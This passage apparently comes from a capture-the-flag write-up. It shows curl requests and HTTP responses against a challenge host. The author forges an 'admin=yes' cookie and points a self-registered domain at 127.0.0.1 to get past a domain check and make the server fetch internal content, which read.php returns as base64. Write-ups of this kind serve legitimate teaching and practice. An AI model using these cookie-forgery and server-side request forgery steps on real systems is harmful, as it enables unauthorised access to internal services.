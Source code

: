 ```
	< Content-Length: 33
	< Content-Type: application/json
	< 
	* Connection #0 to host admin.acme.org left intact
	{"error":{"row":"incorrect row"}}
```

OK THAT is interesting. It seems that after we post something to the index.php, possibly, records get created for read.php to retrieve. We are coming to the crazy rabbit hole portion of the challenge! Knowing that the sub domain needs to contain 212 and end in .com I wonder if I can create my own, so I created 212.tompohl.com to point at 127.0.0.1.

Attempt #4:

```
	$ curl -H "Content-Type: application/json" -b admin=yes -d "{\"domain\":\"212.tompohl.com\"}" http://admin.acme.org/ -v
	*   Trying 104.236.20.43...
	* TCP_NODELAY set
	* Connected to admin.acme.org (104.236.20.43) port 80 (#0)
	> POST / HTTP/1.1
	> Host: admin.acme.org
	> User-Agent: curl/7.54.0
	> Accept: */*
	> Cookie: admin=yes
	> Content-Type: application/json
	> Content-Length: 28
	> 
	* upload completely sent off: 28 out of 28 bytes
	< HTTP/1.1 200 OK
	< Date: Sat, 18 Nov 2017 05:40:32 GMT
	< Server: Apache/2.4.18 (Ubuntu)
	< Content-Length: 26
	< Content-Type: text/html; charset=UTF-8
	< 
	* Connection #0 to host admin.acme.org left intact
	{"next":"\/read.php?id=1"}

	$ curl -H "Content-Type: application/json" -b admin=yes http://admin.acme.org/read.php?id=1 -v
	*   Trying 104.236.20.43...
	* TCP_NODELAY set
	* Connected to admin.acme.org (104.236.20.43) port 80 (#0)
	> GET /read.php?id=1 HTTP/1.1
	> Host: admin.acme.org
	> User-Agent: curl/7.54.0
	> Accept: */*
	> Cookie: admin=yes
	> Content-Type: application/json
	> 
	< HTTP/1.1 200 OK
	< Date: Sat, 18 Nov 2017 05:40:40 GMT
	< Server: Apache/2.4.18 (Ubuntu)
	< Vary: Accept-Encoding
	< Transfer-Encoding: chunked
	< Content-Type: text/html; charset=UTF-8
	< 
	{"data":"CjwhRE9DVF
	......
	5Pgo8L2h0bWw+Cgo="}
```
